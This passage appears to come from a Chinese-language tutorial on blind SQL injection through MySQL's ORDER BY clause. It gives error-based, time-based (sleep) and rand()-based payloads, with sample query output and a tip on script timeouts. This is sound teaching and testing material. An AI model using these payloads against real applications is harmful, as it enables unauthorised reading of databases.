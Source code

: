 &emsp;&emsp;这里如果使用数字代替列名是不行的，因为if语句返回的是**字符类型**,不是整型.
    
**不必知道列名:**
payload:

```sql
order by if(表达式,1,(select id from information_schema.tables))
```

&emsp;&emsp;如果表达式为false时，sql语句会报ERROR 1242 (21000): Subquery returns more than 1 row的错误，导致查询内容为空，如果表达式为true是，则会返回正常的页面。
    
###### 基于时间

```sql
order by if(1=1,1,sleep(1))
```    
测试:
    
```sql
select * from ha order by if(1=1,1,sleep(1)); #正常时间
select * from ha order by if(1=2,1,sleep(1)); #有延迟
```

&emsp;&emsp;测试的时候发现延迟的时间并不是sleep(1)中的1秒，而是大于1秒。 最后发现延迟的时间和所查询的数据的条数是成倍数关系的.计算公式:

```sql
延迟时间=sleep(1)的秒数*所查询数据条数
```

&emsp;&emsp;我所测试的表中有四条数据,所以延迟了4秒。如果查询的数据很多时，延迟的时间就会很长了。 在写脚本时，可以添加timeout这一参数来避免延迟时间过长这一情况。
    
###### 基于rand()的盲注

原理与上面类似,看例子:
    
```sql
mysql> select * from ha order by rand(true);
+----+------+
| id | name |
+----+------+
|  9 | NULL |
|  6 | NULL |
|  5 | NULL |
|  1 | dss  |
|  0 | dasd |
+----+------+
mysql> select * from ha order by rand(false);
+----+------+
| id | name |
+----+------+
|  1 | dss  |
|  6 | NULL |
|  0 | dasd |
|  5 | NULL |
|  9 | NULL |
+----+------+
```
    